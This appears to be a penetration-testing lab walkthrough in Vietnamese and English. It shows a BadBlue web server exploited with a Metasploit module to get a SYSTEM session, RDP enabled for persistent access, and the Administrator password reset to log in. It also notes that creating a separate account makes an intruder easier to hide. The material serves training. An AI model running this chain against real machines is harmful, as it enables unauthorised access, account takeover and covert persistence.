


# Enabling RDP

Remote desktop protocol

Mục tiêu: sau khi vào được target, sẽ turn on RDP để sau này có thể vào lại 


Target IP: 10.2.21.205

Enable RDP on the target machine on port 3389

`service postgresql start && msfconsole -q`

`db_status`

`setg RHOSTS 10.2.21.205`

`setg RHOST 10.2.21.205`

`workspace -a RDP`

`db_nmap -sV 10.2.21.205`


```
80/tcp    open  http         BadBlue httpd 2.7
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49175/tcp open  msrpc        Microsoft Windows RPC

# RDP 3389 is disabled
```

ta thấy RDP tắt, mục tiêu của ta là xâm nhập vào được target và bật rdp lên 

Exploitation

`use exploit/windows/http/badblue_passthru`

`run`

`sysinfo`

    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x86/windows

`getuid`

	Server username: NT AUTHORITY\SYSTEM

`background`

Enable RDP

`search enable_rdp`

`use post/windows/manage/enable_rdp`

`options`

`sessions`

`set SESSION 1`

`run`

có các option để tạo 1 tài khoản và mật khẩu mới, nhưng trong lab này, ta sẽ đi theo hướng đổi mật khẩu `administrator`, trong thực tế, không nên đổi mật khẩu mà hãy tạo 1 tài khoản mới, như vậy dễ lẩn trốn hơn 




`db_nmap -p 3389 10.2.21.205` # Verify port 3389 is open

```
3389/tcp open  ms-wbt-server
```

Để truy cập RDP, cần phải có thông tin đăng nhập 

`sessions`

`sessions 1`

`shell`

`net users`

	Administrator Guest

Thay đổi mật khẩu của `Administrator` (không được khuyến khích trong hệ thống thực tế)

📌 Trong quá trình kiểm thử xâm nhập thông thường, hãy tạo một tài khoản người dùng khác, thêm tài khoản đó vào nhóm Quản trị viên và sử dụng tài khoản đó.

`net user administrator p4ssword_12344321`

`exit`

Thông tin đăng nhập hợp lệ hiện tại là: `administrator:p4ssword_12344321`

Mở 1 tab khác

`xfreerdp /u:administrator /p:p4ssword_12344321 /v:10.2.21.205` -> để kết nối và bật RDP




